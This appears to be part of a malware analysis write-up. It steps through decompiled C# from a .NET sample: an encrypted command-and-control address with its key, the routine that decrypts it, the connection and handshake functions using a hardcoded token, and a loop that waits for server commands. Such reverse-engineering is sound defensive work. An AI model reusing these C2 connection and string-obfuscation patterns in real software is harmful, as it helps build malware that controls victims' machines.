 ```csharp
      IP = "LiwbUTQSMko0CT1JLhFMUzYSDAA3Nz0A";
      ID = "AhU+EiEvExA=";
      Message = "";
      Key = "cxx";
      Version = 1;
```

Already in the beginning of the malware we can find the server’s IP to which it connects to. It seems to be encrypted and we can find the decrypted it at runtime, since we can see that the program itself decrypts it for us and keeps it stored in an array of addresses: 
`string[] array = StringDecrypt.Read(Arguments.IP, Arguments.Key).Split('|');`

The malware tries to connect to the server: 
`ConnectionProvider connectionProvider = new ConnectionProvider();` and then in
```csharp
foreach (string address in array)  {	
   if (connectionProvider.Id1(address))
```

Where `Id1` is just:
#### Code 3
```csharp
public bool Id1(string address)
{
    return RequestConnection(address) && Id3();
}
```

#### Code 4 - RequestConnection, sends an initial message to the server 
<img width="603" height="388" alt="image" src="https://github.com/user-attachments/assets/c25895b8-d4d7-4601-8897-2b4799f52778" />

#### Code 5
```csharp
public bool Id3()
{
    try
    {
        return connector.Id1();
    }
[OperationContract(Name = "Id1")]
bool Id1();
```

In **Code 4**, we can see that the malware builds up a the header for the message that will be sent later.

Protocol used: TCP (server IP found with DnSpy):
Authorization ns1, with hardcoded token (probably checked by the server)

Then, the Id1 function (**Code 5**) supposedly just sends an empty message with the above header → probably a handshake with the C2 server.

We now get back to **Code 1** and proceed with the analysis:
#### Code 6
```csharp
Entity2 args = new Entity2();
while (!connectionProvider.Id5(out args))
{
   if (!connectionProvider.Id3())
   {  
      throw new Exception();
   }
   Thread.Sleep(1000);
```
The malware now expects the server to send a message through function Id5:
